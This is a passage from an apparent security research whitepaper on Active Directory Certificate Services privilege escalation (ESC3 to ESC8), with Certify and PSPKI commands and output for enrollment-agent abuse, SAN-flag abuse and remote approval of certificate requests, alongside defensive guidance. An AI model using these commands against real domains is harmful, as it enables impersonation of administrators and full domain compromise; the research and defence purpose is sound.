AD CS accomplishes this through a certificate template with the Certificate Request Agent OlD (1.3.6.1.4.1.311.20.2.1) in its EKUs. The "enrollment agent" enrolls in such a template and uses the resulting certificate to co-sign a CSR on behalf of the other user. It then sends the co-signed CSR to the CA, enrolling in a template that permits "enroll on behalf of", and the CA responds with a certificate belong to the "other" user.

To abuse this for privilege scalation, a CAs requires at least two templates matching conditions below.

Condition 1 - A template allows a low-privileged user to enroll in an enrollment agent certificate.

- 1. The Enterprise CA allows low-privileged users enrollment rights. Details are the same as in ESC1.
- 2. Manager approval is disabled. Details are the same as in ESC1.
- 3. No authorized signatures are required. Details are the same as in ESC1.
- 4. An overly permissive certificate template security descriptor allows certificate enrollment rights to low-privileged users. Details are the same as in ESC1.
- 5. The certificate template defines the Certificate Request Agent EKU. The Certificate Request Agent OID (1.3.6.1.4.1.311.20.2.1) allows for requesting other certificate templates on behalf of other principals.

Condition 2 - Another template permits a low privileged user to use the enrollment agent certificate to request a certificate on behalf of another user, and the template defines an EKU that allows for domain authentication.

- 1. The Enterprise CA allows low-privileged users enrollment rights. Details are the same as in ESC1.
- 2. Manager approval is disabled. Details are the same as in ESC1.
- 3. The template schema version 1 or is greater than 2 and specifies an Application Policy Issuance Requirement requiring the Certificate Request Agent EKU.
- 4. The certificate template defines an EKU that allows for domain authentication.
- 5. Enrollment agent restrictions are not implemented on the CA.

Here is an example of a vulnerable template matching Condition 1:

| CA Name | : CORPDC01.CORP.LOCAL\CORP-CORPDC01-CA |  |
| --- | --- | --- |
| Template Name | : Vuln-EnrollmentAgent |  |
| Schema Version | : 2 |  |
| Validity Period | : 2 years |  |
| Renewal Period | : 6 weeks |  |
| msPKI-Certificates-Name-Flag | : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH |  |
| mspki-enrollment-flag | : AUTO ENROLLMENT |  |
| Authorized Signatures Required | : 0 |  |
| pkiextendedkeyusage | Certificate Request Agent |  |
| Permissions |  |  |
| Enrollment Permissions |  |  |
| Enrollment Rights | : CORP\Domain Admins | S-1-5-21-3022474190-42307 |
|  | CORP\Domain Users | S-1-5-21-3022474190-42307 |
|  | CORP\Enterprise Admins | S-1-5-21-3022474190-42307 |
| Object Control Permissions |  |  |
| Owner | : CORP\itadmin | S-1-5-21-3022474190-42307 |
| WriteOwner Principals | : CORP\Domain Admins | S-1-5-21-3022474190-42307 |
|  | CORP\Enterprise Admins | S-1-5-21-3022474190-42307 |
| WriteDacl Principals | : CORP\Domain Admins | S-1-5-21-3022474190-42307 |
|  | CORP\Enterprise Admins | S-1-5-21-3022474190-42307 |
| WriteProperty Principals | : CORP\Domain Admins | S-1-5-21-3022474190-42307 |
|  | CORP\Enterprise Admins | S-1-5-21-3022474190-423077 |

Figure 44 - Certificate Request Agent Enabled Template that Anyone can Enroll In

And here is an example matching Condition 2:

| CA Name | : CORPDC01.CORP.LOCAL\CORP-CORPDC01-CA |
| --- | --- |
| Template Name | : Vuln-EnrollmentAgent-AuthorizedSignatures |
| Schema Version | : 2 |
| Validity Period | : 1 year |
| Renewal Period | : 6 weeks |
| msPKI-Certificates-Name-Flag | : SUBJECT ALT REQUIRE UPN, SUBJECT REQUIRE DIRECTORY PATH |
| mspki-enrollment-flag | : INCLUDE SYMMETRIC ALGORITHMS, PUBLISH TO DS, AUTO ENROLLMENT |
| Authorized Signatures Required | : 1 |
| Application Policies | : Certificate Request Agent |
| pkiextendedkeyusage | : Client Authentication, Encrypting File System, Secure Email |
| Permissions |  |
| Enrollment Permissions |  |
| Enrollment Rights | : CORP\Domain Users S-1-5-21-3022474190-4230777124- |
|  | S-1-5-21-3022474190-4230777124- CORP\Enterprise Admins |
| Object Control Permissions |  |
| Owner | : CORP\itadmin S-1-5-21-3022474190-4230777124- |
| WriteOwner Principals | : CORP\Enterprise Admins S-1-5-21-3022474190-4230777124- |
|  | CORP\itadmin S-1-5-21-3022474190-4230777124- |

Figure 45 - A Schema Version 2 Template Anyone can Enroll in with Application Policy Issuance Restrictions

To abuse this, Certify can request an enrollment agent certificate (Condition 1):

| C:\>Certify.exe request /ca:CORPDC01.CORP.LOCAL\CORP-CORPDC01-CA /template:Vuln-EnrollmentAgent |
| --- |
| v0.5.8 |
| [*] Action: Request a Certificates |
| Current user context : CORP\lowpriv |
| [*] No subject name specified, using current context as subject. |
| : Vuln-EnrollmentAgent Template |
| Subject : CN=lowpriv, CN=Users, DC=CORP, DC=LOCAL |
| [*] Certificate Authority : CORPDC01.CORP.LOCAL\CORP-CORPDC01-CA |
| * ] CA Response : The certificate had been issued. |
| Request ID : 151 |
| [*] cert.pem |
| -BEGIN RSA PRIVATE KEY -- -- |
| MIIEpAIBAAKCAQEAxZidnS4/wVsfM50JLgqQKew17oRJ0/32HguMLksfLvCMLMzD |
| XmerKPFYB9A1XA6ZFk62HL7+bkL/+nE6Vtx3Ie+sA49F1gLLgonc+ZM3kI8+jLiZ |

Figure 46 - Requesting an Enrollment Agent Certificate with Certify

Certify can then use the enrollment agent certificate to issue a certificate request on behalf of another to a template that allow for domain authentication (Condition 2):

| C:\>WhoamI |
| --- |
| corp\lowpriv |
| C:\>Certify.exe request /ca:CORPDC01.CORP.LOCAL\CORP-CORPDC01-CA /template:User /onbehalfof:CORP\itadmin |
| /enrollcert:enrollmentAgentCert.pfx /enrollcertpw:asdf |
| v0.5.8 |
| [*] Action: Request a Certificates |
| [*] Current user context : CORP\lowpriv |
| Template : User |
| On Behalf Of : CORP\itadmin |
| [*] Certificate Authority : CORPDC01.CORP.LOCAL\CORP-CORPDC01-CA |
| *   CA Response : The certificate had been issued. |
| *   Request ID : 153 |
| [*] cert.pem |
| -- BEGIN RSA PRIVATE KEY -- -- |
| MIIEpAIBAAKCAQEA3K9PusDH1vvVheAHKyC8/Hz7XZd5aKyu9qqqcEOCVfox5ndD |
| TaQybokWnhBTyYGoezGqx+jyZinASgGeyJEhK6n7lX0v9RlnJy0TYdx35MqZuf6n |
| X8eWGQPYNROXZxDVLCxXw/1+FrePRbsQP05P1ib4QOBZIRUXoMdsHcctbJBTzmwt |
| Figure 47 – Using Certify to Request a Certificate on Behalf of Another User with an Enrollment Cert |

Rubeus can then use the certificate to authenticate as the "On Behalf Of" user:



Figure 48 - Authenticating with the "on behalf of" Certificate

Enterprise CAs can constrain the users who can obtain an enrollment agent certificate, the templates enrollment agents can enroll in, and which accounts the enrollment agent can act on behalf of by opening certsrc.msc snap-in → right clicking on the CA → clicking Properties → navigating to the "Enrollment Agents" tab:102

<sup>102</sup> 

|  | certsrv - [Certification Authority (Local)\theshire-DC-CA] |  |  |  |
| --- | --- | --- | --- | --- |
| File | Action View Help | theshire-DC-CA Properties |  | ? × |
| > 2 | ■ @ 3 3 7 |  |  |  |
|  |  | Extensions Storage |  | Certificate Managers |
|  | Certification Authority (Local) | General | Policy Module | Exit Module |
|  | theshire-DC-CA Revoked Certificates | Enrollment Agents Auditing | Recovery Agents | Security |
|  | Issued Certificates | For more information see Deleqated Enrollment Agents. |  |  |
|  | Pending Requests | Do not restrict enrollment agents |  |  |
|  | Failed Requests | · Restrict enrollment agents |  |  |
|  | Certificate Templates |  |  |  |
|  |  | Enrollment agents: |  |  |
|  |  | Everyone |  | Add ... |
|  |  |  |  | Remove |
|  |  | Certificate Templates: |  |  |
|  |  | <All> |  | Add ... |
|  |  |  |  | Remove |
|  |  | Pemissions: |  |  |
|  |  | Name | Access | Add ... |
|  |  | Everyone | Allow | Remove |
|  |  |  |  | Deny |

Figure 49 – CA Settings Restricting Enrollment Agents (who can Enroll on Behalf of Other Users)

However, the default CA setting is "Do not restrict enrollment agents." Even when administrators enable "Restrict enrollment agents", the default setting is extremely permissive, allowing Everyone access enroll in all templates as anyone. If Enrollment Agent templates are present in an environment, administrators should constrain them as much as possible using these settings.

#### Defensive IDs:

- Harden CA Settings - PREVENT2
- Harden Certificate Template Settings - PREVENT4
- Monitor User/Machine Certificate Enrollments - DETECT1
- Monitor Certificate Authentication Events - DETECT2

## Vulnerable Certificate Template Access Control - ESC4

Certificate templates are securable objects in AD, meaning they have a security descriptor that specifies which AD principals have specific permissions over the template.

We say that a template is misconfigured at the access control level if it has Access Control Entries (ACEs) that allow unintended, or otherwise unprivileged, AD principals to edit sensitive security settings in the template.

That is, if an attacker can chain access to a point that they can actively push a misconfiguration to a template that is not otherwise vulnerable (e.g., by enabling the mspki-certificate-name-flag

flag for a template that allows for domain authentication) this results in the same domain compromise scenario as the previous section. This is a scenario explored in Christoph Falta's GitHub repo103.

The specific access control rights for template that we should care about from a security perspective are "Full Control" and "Write" in the certificate template GUI:

| User2 Properties |  |  | ? |
| --- | --- | --- | --- |
| Subject Name |  | Issuance Requirements |  |
| General Compatibility | Request Handling | Cryptography | Key Attestation |
| Superseded Templates | Extensions | Security | Server |
| Group or user names: |  |  |  |
| Authenticated Users |  |  |  |
| Domain Admins (THESHIRE\Domain Admins) Domain Users (THESHIRE\Domain Users) Enterprise Admins (THESHIRE\Enterprise Admins) |  |  |  |
| Add ... |  |  | Remove |
| Permissions for Authenticated Users |  | Allow | Denv |
| Full Control |  |  |  |
| Head |  |  |  |
| Write |  |  |  |
| Enroll |  |  |  |
| Autoenroll |  |  |  |
| For special permissions or advanced settings, click |  |  |  |
| Advanced. |  |  | Advanced |
| OK | Cancel | Apply | Help |

Figure 50 - Sensitive Certificate Template DACL Set

#### However, the full rights we care about are:

| Right | Description |
| --- | --- |
| Owner | Implicit full control of the object, can edit any properties. |
| FullControl | Full control of the object, can edit any properties. |
| WriteOwner | Can modify the owner to an attacker-controlled principal. |
| WriteDacl | Can modify access control to grant an attacker FullControl. |

WriteProperty Can edit any properties.

You can build manual parsing for these access control entries, or you can use PKI Solutions' PowerShell PKI module104, specifically the Get - CertificateTemplateAcl105 cmdlet.

Certify's find command enumerates these sensitive access control entries (the BloodHound team is actively integrating this enumeration as well):

| CA Name | : dc.theshire.local\theshire-DC-CA |  |
| --- | --- | --- |
| Template Name | : VulnTemplate |  |
| Validity Period | : 3 years |  |
| Renewal Period | : 6 weeks |  |
| msPKI-Certificates-Name-Flag | : ENROLLEE SUPPLIES SUBJECT |  |
| mspki-enrollment-flag | : INCLUDE SYMMETRIC ALGORITHMS, PUBLISH TO DS |  |
| Authorized Signatures Required : 0 |  |  |
| pkiextendedkeyusage | : Client Authentication, Encrypting File System, Secure Email |  |
| Permissions |  |  |
| Enrollment Permissions |  |  |
| Enrollment Rights | : THESHIRE\Domain Admins | S-1-5-21-937929760-3187473010-80948926-512 |
|  | THESHIRE\Domain Users | S-1-5-21-937929760-3187473010-80948926-513 |
|  | THESHIRE\Enterprise Admins | S-1-5-21-937929760-3187473010-80948926-519 |
| Object Control Permissions |  |  |
| Owner | : THESHIRE\localadmin | S-1-5-21-937929760-3187473010-80948926-1000 |
| WriteOwner Principals | : NT AUTHORITY\Authenticated Users S-1-5-11 |  |
|  | THESHIRE\Domain Admins | S-1-5-21-937929760-3187473010-80948926-512 |
|  |  | THESHIRE\Enterprise Admins |
|  | THESHIRE\localadmin | S-1-5-21-937929760-3187473010-80948926-1000 |
| WriteDacl Principals | : NT AUTHORITY\Authenticated Users S-1-5-11 |  |
|  | THESHIRE\Domain Admins | S-1-5-21-937929760-3187473010-80948926-512 |
|  |  | THESHIRE\Enterprise Admins |
|  | THESHIRE\localadmin | S-1-5-21-937929760-3187473010-80948926-1000 |
| WriteProperty Principals | : NT AUTHORITY\Authenticated Users S-1-5-11 |  |
|  | THESHIRE\Domain Admins | S-1-5-21-937929760-3187473010-80948926-512 |
|  |  | THESHIRE\Enterprise Admins |
|  | THESHIRE\localadmin | S-1-5-21-937929760-3187473010-80948926-1000 |

Figure 51 - Using Certify to Enumerate a Certificate Template with Vulnerable Access Contro

For more information on AD access control from a security perspective, see the "An ACE Up the Sleeve" whitepaper106

#### Defensive IDs:

- Harden Certificate Template Settings PREVENT4 ●
- Monitor User/Machine Certificate Enrollments - DETECT1
- Monitor Certificate Authentication Events - DETECT2
- Monitor Certificate Template Modifications DETECT4 ●

## Vulnerable PKI Object Access Control - ESC5

The web of interconnected ACL based relationships that can affect the security of AD CS is extensive. Several objects outside of certificate templates and the certificate authority itself can have a security impact on the entire AD CS system. These possibilities include (but are not limited to):

- The CA server's AD computer object (i.e., compromise through S4U2Self or S4U2Proxy)
- The CA server's RPC/DCOM server ●
- Any descendant AD object or container in the container CN=Public Key Services,CN=Services,CN=Configuration,DC=<COMPANY>,DC=<COM> (e.g., the Certificate Templates container, Certification Authorities container, the NTAuthCertificates object, the Enrollment Services Container, etc.)

If a low-privileged attacker can gain control over any of these, the attack can likely compromise the PKI system.

#### Defensive IDs:

- Harden CA Settings - PREVENT2
- Harden Certificate Template Settings - PREVENT4
- . Monitor Certificate Template Modifications - DETECT4

## EDITF ATTRIBUTESUBJECTALTNAME2 - ESC6

There is another similar issue, described in the CQure Academy post107, which involves the EDITF ATTRIBUTESUBJECTALTNAME2 flag. As Microsoft describes, "If this flaq is set on the CA, any request (including when the subject is built from Active Directory®) can have user defined values in the subject alternative name. 406" This means that an attacker can enroll in ANY template configured for domain authentication that also allows unprivileged users to enroll (e.g., the default User template) and obtain a certificate that allows us to authenticate as a domain admin (or any other active user/machine). As the Keyfactor post describes109, this setting "just makes it work", which is why sysadmins likely flip it without fully understanding the security implications.

rver-2012-R2-and-2012/dn786426(v=ws.11)#controlling-


Note: the alternative names here are included in a CSR via the -attrib "SAN: <X>" argument to certreq.exe (i.e., "Name Value Pairs"). This is different than the method for abusing SANs in ESC1 as it stores account information in a certificate attribute vs a certificate extension. We are not sure why it was designed this way.

Organizations can check if the setting is enabled using the following certutil.exe command:

```
certutil -config "CA HOST\CA NAME" -getreg "policy\EditFlags"
```
Underneath, this just uses remote registry, so the following command may work as well:

```
reg.exe query \\<CA SERVER
>\HKEY LOCAL MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configu
ration\<CA NAME>\PolicyModules\CertificateAuthority MicrosoftDefault.P
olicy\ /v EditFlags
```
Both commands often work as domain authenticated, but otherwise unelevated, user context. In our experience, whether this works is a bit inconsistent (potentially it is because sometimes environments explicitly disable Remote Registry, but we are unsure).



Figure 52 - Unelevated Enumeration of EDITF ATTRIBUTESUBJECTALTNAME2

And finally, Certify's find command will attempt to check this value for every Certificate Authority it enumerates:

| C:\Tools>Certify.exe find |  |
| --- | --- |
| v0.5.2 |  |
| Action: Find certificate templates |  |
| Using the search base 'CN=Configuration,DC=theshire,DC=local' |  |
| [*] Listing info about the Enterprise CA 'theshire-DC-CA' |  |
| Enterprise CA Name | : theshire-DC-CA |
| DNS Hostname | : dc.theshire.local |
| FullName | : dc.theshire.local\theshire-DC-CA |
| Flags | : SUPPORTS NT AUTHENTICATION, CA SERVERTYPE ADVANCED |
| Cert SubjectName | : CN=theshire-DC-CA, DC=theshire, DC=local |
| Cert Thumbprint | : 187D81530E1ADBB6B8B9B961EAADC1F597E6D6A2 |
| Cert Serial | : 14BFC25F2B6EEDA94404D5A5B0F33E21 |
| Cert Start Date | : 1/4/2021 10:48:02 AM |
| Cert End Date | : 1/4/2026 10:58:02 AM |
| Cert Chain | : CN=theshire-DC-CA,DC=theshire,DC=local |
| UserSpecifiedSAN : EDITF ATTRIBUTESUBJECTALTNAME2 set, enrollees can specify Subject Alternative Names! |  |
| A Permissions |  |

Figure 53 - Checking the Value of EDITF_ATTRIBUTESUBJECTALTNAME2 with Certify

To abuse this, just use the /a1tname flag with any template that allows for domain auth. In this case let us use the stock User template, which normally doesn't allow us to specify alternative names, and request a certificate for a DA:

| C:\Tools>whoami |
| --- |
| theshire\lowpriv |
| C:\Tools>Certify.exe request /ca:dc.theshire.local\theshire-DC-CA /template:User /altname:localadmin |
| v0.5.2 |
| [*] Action: Request a Certificates |
| Current user context : THESHIRE\lowpriv |
| No subject name specified, using current context as subject. |
| Template : User |
| Subject : CN=lowpriv, CN=Users, DC=theshire, DC=local |
| AltName : localadmin |
| Certificate Authority : dc.theshire.local\theshire-DC-CA |
| CA Response : The certificate had been issued. |
| Request ID : 316 |
| cert.pem |
| -- BEGIN RSA PRIVATE KEY -- -- |
| MIIEogIBAAKCAQEAw8EkBot5mAwZnXnfr/6ipEpevfEZZbPQkyTcatEcxQJ8706u |
| P00GuYdZpZ2uUgQX1GR81QGWM5WE7MptLKOChGLn92Fbk6sPj3n+dVc8ftKH92CT |

Figure 54 - Abusing EDITF_ATTRIBUTESUBJECTALTNAME2 with Certify


As a sidenote, these settings can be set, assuming domain administrative (or equivalent) rights, from any system:

certutil -config "CA_HOST\CA_NAME" -setreg policy\EditFlags +EDITF ATTRIBUTESUBJECTALTNAME2

If you find this setting in your environment, you can remove this flag with:

certutil -config "CA HOST\CA NAME" -setreg policy\EditFlags -EDITF ATTRIBUTESUBJECTALTNAME2

This setting is bad. Do not use it. If you want to get an idea of how this even gets set in environments,Googlefiletype:pdf EDITF ATTRIBUTESUBJECTALTNAME2

Note: the CQure Academy post¹¹º (in the "Js it right?" section) states that some of these issues were reported to MSRC on 01/01/2020, and the behavior was determined to be "by design".

#### Defensive IDs:

- Harden CA Settings PREVENT2 ●
- Monitor User/Machine Certificate Enrollments DETECT1 ●

### Vulnerable Certificate Authority Access Control - ESC7

Outside of certificate templates, a certificate authority itself has a set of permissions that secure various CA actions. These permissions can be access from certsrv.msc, right clicking a CA, selecting properties, and switching to the Security tab:

|  |  |  | certsrv - [Certification Authority (Local)\theshire-DC-CA] |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- | --- |
| File | Action View | Help |  |  |  |  |  |
|  |  |  |  |  | theshire-DC-CA Properties |  | 7 × |
| FOR | ■ | ਦ |  | A 0 |  |  |  |
|  | Certification Authority (Local) |  |  | Name | Extensions Storage |  | Certificate Managers |
| " | theshire-DC-CA |  |  |  | General Policy Module |  | Exit Module |
|  |  |  |  | Revoked | Enrollment Agents Auditing | Recovery Agents | Security |
|  |  |  |  | Issued ( | Group or user names: |  |  |
|  |  |  |  | Pending |  |  |  |
|  |  |  |  | Failed R | Authenticated Users |  |  |
|  |  |  |  | Certifica | certmanager (certmanager@theshire.local) |  |  |
|  |  |  |  |  | certadmin (certadmin@theshire.local) |  |  |
|  |  |  |  |  | Domain Admins (THESHIRE\Domain Admins) |  |  |
|  |  |  |  |  | Enterprise Admins (THESHIRE\Enterprise Admins) |  |  |
|  |  |  |  |  | Administrators (THESHIRE\Administrators) |  |  |
|  |  |  |  |  |  | Add ... | Remove |
|  |  |  |  |  | Permissions for certmanager | Allow | Deny |
|  |  |  |  |  | Read |  |  |
|  |  |  |  |  | Issue and Manage Certificates Manage CA | K |  |
|  |  |  |  |  | Request Certificates |  |  |

Figure 55 - Certificate Authority Permissions from certsrv.msc

This can also be enumerated via PSPKI's module with Get-CertificationAuthority Get-CertificationAuthorityAcl :

|  | PS C: Users   ocaladmin> Get-CertificationAuthority -ComputerName dc.theshire.local   Get-CertificationAuthorityAcl   sel |
| --- | --- |
| ect -expand Access |  |
| CertificationAuthoritvRights : Enroll |  |
| Rights | : Enroll |
| AccessControl Type | : Allow |
| IdentityReference | : NT AUTHORITY Authenticated Users |
| IsInherited | : False |
| InheritanceFlags | : None |
| PropagationFlags | : None |
| CertificationAuthorityRights : ManageCA, ManageCertificates |  |
| Rights | : ManageCA, ManageCertificates |
| AccessControlType | : Allow |
| IdentityReference | : BUILTIN Administrators |
| IsInherited | : False |
| InheritanceFlags | : None |
| PropagationFlags | : None |
| CertificationAuthorityRights : ManageCA, ManageCertificates |  |
| Rights | : ManageCA, ManageCertificates |
| AccessControlType | : Allow |
| IdentityReference | : THESHIRE Domain Admins |
| IsInherited | : False |
| InheritanceFlags | : None |
| PropagationFlags | : None |
| CertificationAuthorityRights : ManageCA, ManageCertificates |  |
| Rights | : ManageCA, ManageCertificates |
| AccessControlType | : Allow |
| IdentityReference | : THESHIRE Enterprise Admins |
| IsInherited | : False |
| InheritanceFlags | : None |
| PropagationFlags | : None |
| CertificationAuthorityRights : ManageCertificates, Enroll |  |
| Rights | : ManageCertificates, Enroll |
| AccessControl Type | : Allow |
| IdentityReference | : THESHIRE\certmanager |
| IsInherited | : False |
| InheritanceFlags | : None |
| PropagationFlags | : None |

Figure 56 - Enumerating a Certificate Authority's ACL through PSPKI

The two main rights here are the ManageCA right and the ManageCertificates right, which translate to the "CA administrator" and "Certificate Manager" (sometimes known as a CA officer) respectively.

These roles/rights are broken out by Microsoft411 and in other literature, but it was difficult to determine the exact security implication for each of these rights. Specifically, it was difficult to determine how an attacker might abuse these rights remotely. The technical specification "[MS-CSRA]: Certificate Services Remote Administration Protocol" section "3.1.1.7 Permissions"112 details which associated DCOM methods the Administrator and Officer rights can perform remotely against a CA. We have not done a complete assessment of all the available DCOM methods, but we will highlight a few interesting results below.

Forthe Administrator CA right, the method ICertAdminD2:: SetConfigEntry which is used to "…used to set the CA's persisted configuration data that is listed in section 3.1.1.1.10413". Section "3.1.1.10 Configuration Data"14 includes Config CA Accept Request Attributes SAN, which is defined in [MS-WCCE] section 3.2.1.1.4115 as "A Boolean value that indicates whether the CA accepts request attributes that specify the subject alternative name for the certificate being requested." Translation? This is the EDITF ATTRIBUTESUBJECTALTNAME2 flag described in the previous ESC6 section!

In 2020, PKISolutions released some additions to PSPKI to enable the direct use of various AD CS (D)COM interfaces, including ICertAdminD2::SetConfigEntry. PKISolutions published a post about this implementation146, including helpful examples of how to use SetConfigEntry.

So, putting this all together, if we have a principal with ManageCA rights on a certificate authority, we can use PSPKI to remotely flip the EDITF ATTRIBUTESUBJECTALTNAME2 bit to allow SAN specification in any template:

$(hostname) : $(whoami) S C: (temp) S C:\temp> Import-Module PSP $ConfigReader = new-object SysadminsLV.PKI.Dcom.Implementations.CertSrvRegManagerU $ConfigReader. SetRootNode ($true) $ConfigReader.GetConfigEntry("EditFlags", "PolicyModules\CertificateAuthori S C:\temp> $ConfigReader.SetConfigEntry(1376590, "EditFlags", "PolicyModules\Certi tv MicrosoftDefault.Policy" )

Figure 57 - Setting EDITF ATTRIBUTESUBJECTALTNAME2 Remotely with PSPKI

| PS C:\Temp> hostname |
| --- |
| dc |
| PS C:\Temp> certutil -config "dc.theshire.local\theshire-DC-CA" -getreq policy\EditFlags |
| HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\theshire-DC-CA |
| PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\EditFlags: |
| EditFlags REG_DWORD = 11014e (1114446) |
| EDITF_REQUESTEXTENSIONLIST -- 2 |
| EDITF_DISABLEEXTENSIONLIST -- 4 |
| EDITF_ADDOLDKEYUSAGE -- 8 |
| EDITF_BASICCONSTRAINTSCRITICAL -- 40 (64) |
| EDITF_ENABLEAKIKEYID -- 100 (256) |
| EDITF_ENABLEDEFAULTSMIME -- 10000 (65536) |
| EDITF_ENABLECHASECLIENTDC -- 100000 (1048576) |
| CertUtil: -getreq command completed successfully. |
| PS C:\Temp> # SetConfigEntry invoked |
| PS C:\Temp> certutil -config "dc.theshire.local\theshire-DC-CA" -getreq policy\EditFlags |
| HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\theshire-DC-CA |
| PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\EditFlags: |
| EditFlags REG_DWORD = 15014e (1376590) |
| EDITF_REQUESTEXTENSIONLIST -- 2 |
| EDITF_DISABLEEXTENSIONLIST -- 4 |
| EDITF_ADDOLDKEYUSAGE -- 8 |
| EDITF_BASICCONSTRAINTSCRITICAL -- 40 (64) |
| EDITF_ENABLEAKIKEYID -- 100 (256) |
| EDITF ENABLEDEFAULTSMIME -- 10000 (65536) |
| EDITF_ATTRIBUTESUBJECTALTNAME2 -- 40000 (262144) |
| EDITF ENABLECHASECLIENTDC -- 100000 (1048576) |
| CertUtil: -getreq command completed successfully. |
| PS C: \Temp> |

Figure 58 - Confirming EDITF_ATTRIBUTESUBJECTALTNAME2 Modification

This is also possible in a simpler form with PSPKI's Enable-PolicyModuleFlag¹¹7 cmdlet.

Now let us move on to the ManageCertificates rights, known as Officer rights in "[MS-CSRA] 3.1.1.7". There are various methods concerning key archival (aka "key recovery agents"), which we do not cover in this paper. The ICertAdminD: : ResubmitRequest 118 method"... resubmits a specific pending or denied certificate request to the CA.", which causes a pending request to be approved when performed with Officer rights. The ability to remotely approve pending certificate requests allows an attacker to subvert the "CA certificate manager approval" protection detailed

<sup>117</sup> 

<sup>118</sup> 

in "Harden Certificate Template Settings - PREVENT4" section. This is what PSPKI's Approve-CertificateRequest119 cmdletuses under the hood:



Figure 59 - Requesting a Certificate that Requires Manager Approval with Certify



Figure 60 - Approving a Pending Request with PSPKI

<sup>119</sup> 



#### Defensive IDs:

- Miscellaneous DETECT7 .
# NTLM Relay to AD CS HTTP Endpoints – ESC8

As covered in the "Certificate Enrollment" section, AD CS supports several HTTP-based enrollment methods via additional AD CS server roles that administrators can install. These HTTPbased certificate enrollment interfaces are all vulnerable NTLM relay attacks. Using NTLM relay, an attacker on a compromised machine can impersonate any inbound-NTLM-authenticating AD account. While impersonating the victim account, an attacker could access these web interfaces and request a client authentication certificate based on the User or Machine certificate templates.

NTLM relay to the HTTP-based certificate enrollment endpoints is possible because these endpoints do not have NTLM relay protections enabled:

- The web enrollment interface (an older looking ASP application accessible at ●  by default only supports HTTP, which cannot protect against NTLM relay attacks. In addition, it explicitly only allows NTLM authentication via its Authorization HTTP header, so more secure protocols like Kerberos are unusable.
- The Certificate Enrollment Service (CES), Certificate Enrollment Policy (CEP) Web Service, and Network Device Enrollment Service (NDES) support negotiate authentication by default via their Authorization HTTP header. Negotiate authentication support Kerberos and NTLM; consequently, an attacker can negotiate down to NTLM authentication during relay attacks. These web services do at least enable HTTPS by default, but unfortunately HTTPS by itself does not protect against NTLM relay attacks. Only when HTTPS is coupled with channel binding can HTTPS services be protected from NTLM relay attacks. Unfortunately, AD CS does not enable Extended Protection for Authentication on IIS, which is necessary to enable channel binding.
NTLM relay to AD CS's web enrollment interfaces provide many advantages to attackers. A general issue attackers tend to have when performing NTLM relay attacks is that when an inbound authentication occurs and the attacker relays it, there is only a short window of time to abuse it. A privileged account may authenticate only once to an attacker's machine. The attacker's tools can try and keep the NTLM session alive as long as possible, but often the session is only usable for a short duration. In addition, the authentication session is restricted – the attacker cannot interact with services that enforce NTLM signing.

An attacker can resolve these limitations, however, by relaying to the AD CS web interfaces. The attacker can use NTLM relay to access the AD CS web interfaces and request a client authentication certificate as the victim account. The attacker could then authenticate via Kerberos or Schannel, or obtain the victim account's NTLM hash using PKINIT (as discussed in the "NTLM Credential Theft via PKINIT – THEFT5″ section). This solidifies the attacker's access to victim account for a long time period (i.e., however long the certificate is valid for) and the attacker is free to authenticate to any service using multiple authentication protocols without NTLM signing getting in the way.

Another limitation of NTLM relay attacks is that they require a victim account to authenticate to an attacker-controlled machine. An attacker can patiently wait for this occur as part of the normal operations on the network, or the attacker can coerce an account to authenticate to a compromised machine. Authentication coercion is possible by many means. Lee Christensen highlighted one such technique, "the printer bug" ෴ that works by coercing machine accounts to attacker's authenticate to an using the MS-RPRN RpcRemoteFindFirstPrinterChangeNotification(Ex) RPC method (implemented in the tool SpoolSample221 and later in the tool Dementor122 using Impacket).

122 

Note: Newer operating systems have patched the MS-RPRN coerced authentication "feature". However, almost every environment we examine still has Server 2016 machines running, which are still vulnerable to this. There are other ways to coerce accounts to authenticate to an attacker as well which could assist in local privilege escalation or remote code execution.

Using "the printer bug", an attacker can use NTLM relay to impersonate a machine account and request a client authentication certificate as the victim machine account. If the victim machine account can perform privileged actions such as domain replication (e.g., domain controllers or Exchange servers), the attacker could use this certificate to compromise the domain. The attacker could also logon as the victim machine account and use S4U2Self as previously described to access the victim machine's host OS, or use PKINIT to get the machine account's NT hash and then forge a Kerberos service ticket (a.k.a. the "silver ticket" attack).

In summary, if an environment has AD CS installed, along with a vulnerable web enrollment endpoint and at least one certificate template published that allows for domain computer enrollment and client authentication (like the default Machine template), then an attacker can compromise ANY computer with the spooler service running!

| *] Enterprise/Enrollment CAs: |  |
| --- | --- |
| Enterprise CA Name | : CORP-CORPDC01-CA |
| DNS Hostname | : CORPDC01.CORP.LOCAL |
| FullName | : CORPDC01.CORP.LOCAL\CORP-CORPDC01-CA |
| Flags | : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED |
| Cert SubjectName | : CN=CORP-CORPDC01-CA, DC=CORP, DC=LOCAL |
| Cert Thumbprint | : B6A9FA2866E8525E782AE162DBA45FD0EAA71D42 |
| Cert Serial | 30F44C6DE341F3994FDB8E7AD626BA68 |
| Cert Start Date | : 5/6/2021 4:41:38 PM |
| Cert End Date | : 5/6/2026 4:51:38 PM |
| Cert Chain | : CN=CORP-CORPDC01-CA.DC=CORP,DC=LOCAL |
| UserSpecifiedSAN | : Disabled |
| CA Permissions |  |
| Owner: BUILTIN\Administrators | S-1-5-32-544 |
| Access Rights | Principal |
| Allow Enroll | NT AUTHORITY\Authenticated UsersS-1-5-11 |
| Allow ManageCA, ManageCertificates | BUILTIN Administrators S-1-5-32-544 |
| Allow ManageCA, ManageCertificates | CORP Domain Admins S-1-5-21-3022474190 |
| Allow ManageCA, ManageCertificates | CORP Enterprise Admins S-1-5-21-30224741 |
| Enrollment Agent Restrictions : None |  |
| Legacy ASP Enrollment Website :  |  |
|  |  |
| Enrollment Web Service | :  |
| NDES Web Service | :  |
|  |  |
| Enabled Certificate Templates: |  |
| DomainUsers |  |
| Vuln-AnyPurpose |  |

Certify's cas command can enumerate enabled HTTP AD CS endpoints:

Figure 62 - Certify Enumerating Enabled AD CS HTTP Endpoints

